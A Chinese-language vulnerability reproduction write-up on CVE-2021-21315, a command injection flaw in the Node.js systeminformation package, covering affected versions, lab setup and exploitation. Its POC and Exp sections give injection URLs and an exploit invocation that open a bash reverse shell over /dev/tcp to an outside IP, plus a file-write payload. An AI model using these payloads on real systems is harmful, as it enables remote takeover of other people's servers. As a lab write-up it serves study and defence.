



# CVE-2021-21315 Node.js 命令sanitize注入漏洞

## 概述
Node.js-systeminformation是用于获取各种系统信息的Node.JS模块，它包含多种轻量级功能，可以检索详细的硬件和系统相关信息。自发布至今，systeminformation软件包下载次数近3400万。

2021年02月24日，npm团队发布安全公告，Node.js库中的systeminformation软件包中存在一个命令注入漏洞（CVE-2021-21315），其CVSSv3评分为7.8。

攻击者可以通过在未经过滤的参数中注入Payload来执行系统命令。

## 影响范围
Systeminformation < 5.3.1

## 环境搭建
下载漏洞代码

`wget https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC`

安装漏洞环境

```
wget https://nodejs.org/download/release/v12.18.4/node-v12.18.4-linux-x64.tar.xz
tar -xf node-v12.18.4-linux-x64.tar.xz
mv node-v12.18.4-linux-x64 nodejs
mv nodejs/ /usr/local/sbin/
ln -s /usr/local/sbin/nodejs/bin/node /usr/local/bin/
ln -s /usr/local/sbin/nodejs/bin/npm /usr/local/bin/
```

运行漏洞代码
```
cd CVE-2021-21315-PoC
node index.js
```



## 漏洞利用

### POC
```
http://127.0.0.1:8000/api/getServices?name[]=$(bash -i >& /dev/tcp/192.168.230.201/1325 0>&1)
http://127.0.0.1:8000yoursite.com/api/getServices?name[]=$(echo -e 'qwe' > pwn.txt)
```

### Exp
```
python CVE-2021-21315.py http://127.0.0.1:8000/ "bash -i >& /dev/tcp/127.0.0.1/4242 0>&1"
```





